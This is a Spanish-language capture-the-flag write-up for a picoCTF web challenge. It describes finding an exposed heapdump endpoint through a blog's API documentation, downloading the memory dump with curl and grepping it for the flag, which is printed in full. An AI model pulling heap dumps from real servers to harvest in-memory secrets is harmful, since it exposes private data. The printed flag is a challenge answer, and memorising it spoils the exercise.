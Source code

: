 # Descripción
Welcome to the challenge! In this challenge, you will explore a web application and find an endpoint that exposes a file containing a hidden flag.The application is a simple blog website where you can read articles about various topics, including an article about API Documentation. Your goal is to explore the application and find the endpoint that generates files holding the server’s memory, where a secret flag is hidden.The website is running [picoCTF News](http://verbal-sleep.picoctf.net:62048/).
Hints:
1. Explore backend development with us
2. The head was dumped.
# Solución
- Entramos a la página
- Entramos a la documentación de la API
- Buscaremos en los diferentes endpoints hasta encontrar uno que genera archivos y los alamacena
- Por el nombre del reto asumimos que es heapdump
- Lo probamos, lo ejecutamos y nos dará el link para un archivo que se genera
- Lo descargamos usando el comando que nos da junto a una extensión para que se guarde
- Le hacemos un cat junto a un grep y obtenendremos la bandera
```
amv@LAPTOP-1MU6MBUF:~$ curl -X 'GET' \
p' \
  -H 'accept: */*'>   'http://verbal-sleep.picoctf.net:62048/heapdump' \
>   -H 'accept: */*' > heapdump
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--    0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--    0     0    0     0    0     0      0      0 --:--:--  0:00:01 --:--:--    0     0    0     0    0     0      0      0 --:--:--  0:00:02 --:--:--    1 8732k    1   99k    0     0  32013      0  0:04:39  0:00:03  0:04:36 3 12 8732k   12 1086k    0     0   261k      0  0:00:33  0:00:04  0:00:29   26 8732k   26 2272k    0     0   440k      0  0:00:19  0:00:05  0:00:14   40 8732k   40 3565k    0     0   578k      0  0:00:15  0:00:06  0:00:09   54 8732k   54 4747k    0     0   662k      0  0:00:13  0:00:07  0:00:06   67 8732k   67 5896k    0     0   722k      0  0:00:12  0:00:08  0:00:04 1 82 8732k   82 7188k    0     0   784k      0  0:00:11  0:00:09  0:00:02 1 97 8732k   97 8497k    0     0   824k      0  0:00:10  0:00:10 --:--:-- 1100 8732k  100 8732k    0     0   837k      0  0:00:10  0:00:10 --:--:-- 1212k
amv@LAPTOP-1MU6MBUF:~$ cat heapdump | grep picoCTF{
picoCTF{Pat!3nt_15_Th3_K3y_388d10f7}


picoCTF{Pat!3nt_15_Th3_K3y_388d10f7}
```
# Notas adicionales
- Se puede descargar el archivo directamente desde el navegador
# Referencias